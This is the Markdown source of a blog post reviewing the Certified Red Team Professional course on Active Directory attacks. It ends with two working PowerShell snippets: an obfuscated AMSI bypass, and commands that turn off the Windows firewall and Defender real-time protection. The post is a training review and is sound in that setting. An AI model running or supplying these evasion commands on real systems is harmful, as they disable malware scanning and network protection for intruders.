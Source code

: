 ```yaml
---
layout: post
title: "Certified Red Team Professional (CRTP) Review"
permalink: "crtp"
date: 13-11-2022
categories: Blog
---
```


Recently I passed the Certified Red Team Professional (CRTP) which was an excellent course provided by Pentester Academy. The course is focused on Active Directory hacking but instead of using Kali we instead use a Windows box to priv esc and move around the AD network with the help of PS Remoting mainly. 

The best part about this course is we are working in an environment with MS Defender and AMSI scanning in place so although being stealthy (aka Red Teaming) isn't a requirement it is necessary to bypass these restrictions.

The course consists of the following sections but to be honest for the exam the 'Defenses' topics aren't required:

* Active Directory Enumeration
* Local Privilege Escalation
* Domain Privilege Escalation
* Domain Persistence and Dominance
* Cross Trust Attacks
* Forest Persistence and Dominance
* Defenses – Monitoring
* Defenses and bypass – Architecture and Work Culture Changes
* Defenses and Bypass – Deception
* Defenses and Bypass – PowerShell

One of the key things when going from box to box I learned is how to disable AMSI and also open up the firewall and disable real-time monitoring. These were the two Powershell commands I ran each time which might be useful for others:

**Bypass AMSI:**
{% highlight powershell %}
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
{% endhighlight %}

**Disable AV & Open Firewall:**
{% highlight powershell %}
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;Set-MpPreference -DisableIOAVProtection $true;Set-MpPreference -DisableRealtimeMonitoring $true
{% endhighlight %}




